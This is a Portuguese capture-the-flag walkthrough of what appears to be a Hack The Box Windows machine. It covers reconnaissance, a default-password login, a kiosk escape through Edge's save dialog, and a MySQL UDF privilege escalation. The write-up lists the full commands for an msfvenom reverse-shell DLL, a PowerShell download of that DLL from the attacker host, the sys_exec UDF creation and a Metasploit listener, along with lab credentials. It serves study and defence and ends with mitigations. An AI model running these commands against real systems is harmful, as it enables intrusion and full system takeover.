


📋 Sumário Executivo
| Fase | Vetor de Ataque | Resultado |
|---|---|---|
| 1. Reconhecimento | Varredura Nmap + Enumeração Web (porta 8443) | Descoberta de touch.htb:8443 e serial NX-DH-2024-B7042 |
| 2. Foothold / User | Login no portal → Credenciais RDP → Kiosk Breakout (Edge Save Dialog) | Shell como KioskUser & Flag de Usuário |
| 3. Escalação para Root/Admin | MySQL local com root exposto → Injeção de DLL UDF (evil.dll via sys_exec) |
Shell SYSTEM / Administrator & Flag Root |
🔍 Fase 1 — Reconhecimento e Enumeração
1.1 Varredura de Portas (Nmap)
nmap -Pn -n -sV --top-ports 1000 --open --reason -T4 --max-retries 2 10.129.74.113| Porta | Estado | Serviço | Versão / Detalhes |
|---|---|---|---|
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Service (RDP) |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 (WinRM) |
| 8443/tcp | open | http | Microsoft HTTPAPI httpd 2.0 (Nexion DeviceHub) |
1.2 Enumeração Web (Porta 8443)
Acessando a API de status desautenticada em http://touch.htb:8443/api/status:
curl -i http://10.129.74.113:8443/api/status
Dados expostos pelo endpoint:
{
"device": "Nexion DeviceHub DH-100",
"serial": "NX-DH-2024-B7042",
"firmware": "1.4.2",
"status": "online",
"uptime": 20761
}🔑 Fase 2 — Foothold & Kiosk Breakout (User)
2.1 Autenticação no Painel Web
O portal web informa que a senha padrão do dispositivo corresponde ao seu número de série (NX-DH-2024-B7042):

Ao realizar o login com o serial, o painel administrativo revela as credenciais do quiosque:

Credenciais Descobertas:
• Usuário:KioskUser
• Senha:K!0sk2026#
2.2 Acesso RDP (Quiosque Windows)
Conexão ao quiosque via cliente RDP:
xfreerdp3 /u:KioskUser /p:'K!0sk2026#' /v:10.129.74.113

2.3 Escape do Modo Quiosque (Kiosk Breakout)
Ao manipular e desativar os periféricos (scanner/impressora) no painel web e solicitar um escaneamento no quiosque, a aplicação dispara uma janela de erro com um link de suporte clicável:

O link abre o navegador Microsoft Edge. Utilizando o atalho padrão de salvamento (Ctrl + S), a caixa de diálogo do Windows Explorer é exibida:


Ao digitar cmd.exe ou explorer.exe na barra de caminho do diálogo, um terminal de comando com privilégios de KioskUser é iniciado, permitindo acessar o Desktop e ler a flag de usuário:

🔵 User Flag: 49884f45dfae2715c1c8eb165303197b
👑 Fase 3 — Escalação de Privilégios (Admin / Root)
3.1 Enumeração de Privilégios e Usuários
whoami /all
net user KioskUser

3.2 Exploração de UDF no MySQL Local
Identificou-se uma instância local do MySQL em execução como serviço de alto privilégio. A senha de root do banco foi obtida nas configurações locais:
Credenciais MySQL:root/HTB@irw4ys_DB!2026
Gerando uma DLL maliciosa com carga reversa para Windows x64:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.140 LPORT=4444 -f dll -o evil.dllTransferindo a DLL para o diretório de plugins do MySQL no alvo (C:\MySQL\lib\plugin\evil.dll):
# Servidor HTTP no Kali:
python3 -m http.server 8005
# Download no PowerShell do Windows:
iwr -Uri "http://10.10.15.140:8005/evil.dll" -OutFile "C:\MySQL\lib\plugin\evil.dll"Criando a função UDF customizada (sys_exec) no MySQL para carregar a DLL:
.\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_exec RETURNS INT SONAME 'evil.dll';"
3.3 Reverse Shell e Captura da Flag Root
Configurando o listener no Metasploit / Netcat:
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set LHOST 10.10.15.140
set LPORT 4444
exploit
Leitura da flag no diretório do Administrador (C:\Users\Administrator\Desktop\root.txt):
type C:\Users\Administrator\Desktop\root.txt
d7809689c5e3c3861887cc518b169258🏁 Flags Obtidas
🗺️ Attack Chain — Visão Geral
🛡️ Vulnerabilidades Identificadas & Mitigações
| # | Vulnerabilidade | Localização | Impacto | Severidade |
|---|---|---|---|---|
| 1 | Information Disclosure & Default Credential | /api/status e /login |
Acesso administrativo inicial via número de série padrão | Alta |
| 2 | Kiosk Escape via Diálogos de Sistema | Aplicação Kiosk / Microsoft Edge | Execução de código arbitrário e quebra de sandbox de quiosque | Alta |
| 3 | MySQL UDF Arbitrary DLL Execution | Instância local do MySQL (serviço elevado) | Escalação total de privilégios para SYSTEM / Administrator | Crítica |
📝 Lições Aprendidas & Medidas Corretivas
- Proteção de APIs de Status e Diagnóstico: Endpoints como
/api/statusnão devem expor números de série, identificadores de hardware ou detalhes de versão publicamente sem autenticação. - Substituição Obrigatória de Senhas Padrão: Equipamentos e quiosques devem forçar a alteração de senhas no primeiro boot, impedindo o uso de números de série como credenciais.
- Endurecimento de Ambientes Kiosk (Assigned Access): Utilizar o recurso nativo do Windows Assigned Access (Modo Quiosque de aplicativo único), desabilitando atalhos de teclado (Ctrl+S, Win+R, Ctrl+Shift+Esc) e impedindo o acesso ao sistema de arquivos via diálogos Save As.
- Proteção de Instâncias MySQL / UDF: Configurar a variável
secure_file_privpara um diretório restrito ou desabilitar o carregamento de plugins/UDFs externos não autorizados, além de executar o serviço MySQL sob conta de serviço com privilégios mínimos (Managed Service Account).